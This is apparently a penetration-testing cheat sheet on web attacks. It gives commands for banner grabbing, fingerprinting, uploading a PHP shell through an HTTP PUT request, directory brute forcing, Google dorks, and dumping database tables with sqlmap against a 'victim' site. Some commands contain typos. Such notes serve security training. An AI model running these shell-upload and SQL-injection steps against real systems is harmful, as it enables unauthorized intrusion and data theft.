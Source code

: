 # Web Attacks
- ### Banner grabbing
  ```
  nc -v <target> <port>
  HEAD / HTTP/1.0
  ```
- ### HTTPS services
  ```
  openssl s_client -connect <target>:<port>
  HEAD / HTTP/1.0
  ```
- ### Fingerpriting with Httprint
  ```
  httprint -P0 -h <target> -s <signature file>
  ```
- ### HTTP Verbs
  ```
  GET, POST, HEAD, PUT, DELETE, OPTIONS
  ```
- ### Using PUT to upload shell
  ```
  # Get the content length of the shell
  wc -m shell.php
  <payload content length output>
  
  # Then using nc to upload with the PUT method
  nc <target> <port>
  PUT /payload.php HTTP/1.0
  Content-type: text/html
  Content-length: <length of payload>
  ```
- ### Directory and File Enumeration
  
  Enumeration of files and directories can lead to many hidden resources that could contain:
- New and untested features
- Backup files
- Testing information
- Developer's notes
  
  ```
  # Dirb is a great tool to use for directory/file brute forcing
  dirb http://<target>
  
  # Gobuster is another directory/file scanner written in Go
  gobuster -u <target> -w <path to wordlist> -o <file to output to>
  ```
- ### Google Dorks
  | Command               | Meaning                                                                                                     |
  |-----------------------|-------------------------------------------------------------------------------------------------------------|
  | site:                 | You can use this command to include only results on a given hostname.                                       |
  | intitle:              | This command filters according to the title of a page.                                                      |
  | inurl:                | Similar to intitle, but works on the URL of a resource.                                                     |
  | filetype:             | This filters by using the file extension of a resource. For example .pdf or .xls.                           |
  | AND, OR, &,           | You can use logical operators to combine your expressions. For example: site:example.com OR site:another.com |
  | -                     | You can use this character to filter out a keyword or a command's result from the query.                    |
- ### SQL Injection with SQLMap
  
  ```
  sqlmap -u <target> -p <paramater> [options]
  
  # Example
  sqlmap -u 'http://vicitim.site/search.php?id=2' -p id --technique=U
  
  # Dump contents of a specific table in a database
  sqlamp -u 'http://victim.site/search.php?=1' -D <database name> -T <table name> --dump
  ```